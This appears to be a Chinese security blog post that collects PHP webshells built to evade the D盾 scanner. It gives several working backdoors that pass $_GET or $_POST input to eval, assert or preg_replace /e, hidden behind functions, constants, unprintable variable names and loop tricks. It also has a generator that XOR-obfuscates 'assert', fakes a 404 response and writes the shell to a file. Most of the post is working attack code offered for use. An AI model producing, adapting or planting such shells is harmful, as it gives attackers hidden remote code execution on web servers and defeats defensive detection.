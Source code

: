 ```yaml
---
title: "PHP Webshell Bypass"
date: 2019-08-12T21:10:02+08:00
lastmod: 2019-08-12T21:57:02+08:00
draft: false
tags: ['bypass']
categories: ['bypass']
comment: true
---
```


准备写一个长期更新的免杀webshell总结

<!--more-->

2019-10-12

一个符号bypass

https://forum.90sec.com/t/topic/513/1

```php
<?php
function test($name){#
    eval($name);
}

test($_GET['code']);
?>
```



2019-08-15

https://evi1.cn/post/bypass-shell/

```php
<?php
$a = $_POST['cmd'];
$var = "phpnb {${eval($a)}}";
```

2019-08-12

![20190812215816](https://y4er.com/img/uploads/20190812215816.png)

2019-08-09

疯狂免杀

![20190809144327](https://y4er.com/img/uploads/20190809144327.png)

2019-08-07

```php
<?php
function a()
{
    return '' + @$_POST['a'];
}

eval(a());
```

再来一个三元表达式的

![20190807111622](https://y4er.com/img/uploads/20190807111622.png)

2019-08-06

常量过D盾

https://secquan.org/Notes/1069997

```php
<?php
sprintf("123");
sprintf("123");
sprintf("123");
$a=$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```



另一种思路反序列化过D盾，代码自己写

再一种思路 创建对象重复定义变量成员过D盾

2019-05-30

ASCII码显示不出来的字符做变量过D盾

<https://github.com/th1k404/unishell>

<http://ascii.911cha.com/>

```php
<?php
if($_GET['␄']){
    $␄=$_GET['␄'];
    @preg_replace("/abcde/e",$␄, "abcdefg");
}
?>
```

可以自己修改

2019-05-21

<https://github.com/yzddmr6/webshell-venom>

利用随机异或无限免杀d盾

蚁剑插件版请移步:

<https://github.com/yzddmr6/as_webshell_venom>

```php
<?php
//code by Mr6
error_reporting(0);
	function randomkeys($length)   
{   
   $pattern = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        $key[$i]= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
}   
	function randname($length)   
{   
   $pattern = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        @$key.= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
} 
	$str=randomkeys(6); 
	$bname=randname(4);
	$lname=strrev(strtolower($bname));
	$str2="assert";
			echo "<?php \n";
			echo "header('HTTP/1.1 404');\n";
			echo "class  ".$bname."{ public \$c='';\nfunction __destruct(){\n";
	for ($i=0;$i<6;$i++)
	{
		$name="_".$i;
		$str3[$i]=bin2hex($str[$i] ^$str2[$i]);
		echo "$"."$name=";
	echo "'".$str[$i]."'"."^"."\"\\x".$str3[$i]."\";\n";
	}
	$aa='$db=$_0.$_1.$_2.$_3.$_4.$_5;';
	echo $aa;
	echo "\n";
	echo '@$db ("$this->c");}}';
	echo "\n";
	echo "\${$lname}=new {$bname}();\n";
	echo "@\${$lname}->c=\$_POST['Mr6'];\n";
	echo "?>\n";
	@$file=$_GET['file'];
	$html = ob_get_contents();
	if (isset($file)){
	if(file_put_contents($file,$html))
	echo "\n\n\n".$file."   save success!";}
	else {echo "Please input the file name like '?file=xxx.txt'";}
	?>
```



2019-05-11

```php
<?php
function a(){
	return $a=$_POST['1'];
}
@assert(a());
?>
```

![](https://y4er.com/img/uploads/20190511171755.png)

```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
	assert($value);
}
```
![](https://y4er.com/img/uploads/20190511183608.png)
**可以发现的规律是当已经定义的变量和循环的变量名一致时，D盾就不是那么敏感了**